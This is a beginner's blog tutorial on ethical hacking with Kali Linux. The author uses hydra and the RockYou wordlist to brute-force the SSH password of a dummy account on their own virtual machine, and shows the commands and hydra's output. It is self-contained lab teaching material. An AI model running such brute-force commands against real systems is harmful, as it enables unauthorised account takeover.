```yaml
---
title: Introduction to Ethical Hacking
date: 2023-03-26 18:28:17 +03:00
tags: [introduction, "ethical hacking", hacking, kali, linux, "brute-force attack"]
description: This blog post will introduce ethical hacking with Kali Linux. We'll define ethical hacking, discuss Kali Linux, and cover basic techniques such as reconnaissance and vulnerability scanning. By the end, readers will have a better understanding of using Kali Linux as a tool in ethical hacking.
image: /ethical-hacking-intro/ethical-hacking-intro-cover.png
---
```


# Ethical Hacking

In this series of blog posts, let me walk you through a path of a beginning
ethical hacker. It's mainly meant for me to learn, but I will be happy if this
helps someone else to get down on the path of an ethical hacker as well.

## Kali Linux

Kali Linux is a Linux distribution that comes with a set of tools useful for
ethical hacking. Go ahead and install it, preferably in a virtual machine.

Follow the [official website][1] to install the Kali Linux.

[1]: https://www.kali.org/

## SSH Brute-Force Dictionary Attack

Brute-force attach is the kind of attach where the attacker tries all possible values to crack for
example some password. In this introduction we will create a Linux user account that we will try to
hack.

Instead of trying manually one password after another, let's automate that process. We will create a
list of possible passwords and pass that list to a smart program that will try all those passwords
for us.

On Kali Linux there is a program called `hydra`. Kali Linux also comes with a
list of possible passwords - [RockYou list][2] (comes from the incident in 2009).
The file is located in `/usr/share/wordlists/rockyou.txt.gz` and contains 14
million records. We will use this list to crack a Linux user account.

First of all unzip the file with passwords (also called a dictionary).

`sudo gunzip /usr/share/wordlists/rockyou.txt.gz`

> You can try to find your passwords in the list using `grep`. If you find some
> of them there, then it would be the best to change those immediately.

Now let's use the `hydra` to crack the password. For testing purposes I have
created a new account `dummy` with password `winniethepooh` in my Kali virtual machine.

```bash
sudo useradd --no-create-home --no-user-group dummy`
sudo passwd dummy
````

You will also need to enable SSH to allow incoming connections

`sudo service ssh start`

Next, run the `hydra` to crack the password. This time we are not going to crack
the username, instead we will pass the username to `hydra` manually to simplify
and speed up the process.

`hydra -l "dummy" -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`

This might take a while, because Linux is trying to slow potential attacker
down by adding extra timeout when logging in over SSH. After couple moments you
get the first output with statistics:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l dummy -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret
service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and
ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-26 12:54:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce
the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525
tries per task
[DATA] attacking ssh://127.0.0.1:22/
[STATUS] 114.00 tries/min, 114 tries in 00:01h, 14344286 to do in 2097:08h, 15 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

You can notice in the printout that the current speed is 114 passwords per
minute and the time to finish is 2097 hours (87 days), therefore it might be
better to use smaller dictionary for testing purposes.

I have reduced the dictionary size to 200 records (but included the
`winniethepooh`, to see how it works).

```bash
cat /usr/share/wordlists/rockyou.txt | \
  head -n 100000 | \
  sort --random-sort  | \
  head -n 200 | \
  sed '1s/.*/winniethepooh/' | \
  sort --random-sort > ~/word_list.txt
```

Now it is possible to run `hydra` again with the smaller wordlist. After two
minutes at latest we should crack the password.

`hydra -l dummy -P ~/word_list.txt ssh://127.0.0.1`

After a moment we got the result with correct password.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l dummy -P ~/word_list.txt ssh://127.0.0.1 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-26 13:03:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking ssh://127.0.0.1:22/
[22][ssh] host: 127.0.0.1   login: dummy   password: winniethepooh
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-26 13:05:02
```

Hydra was able to crack the password of the user account: `winniethepooh`.

This was the first introductory blog post about ethical hacking. Thanks for
reading!

[2]: https://en.wikipedia.org/wiki/RockYou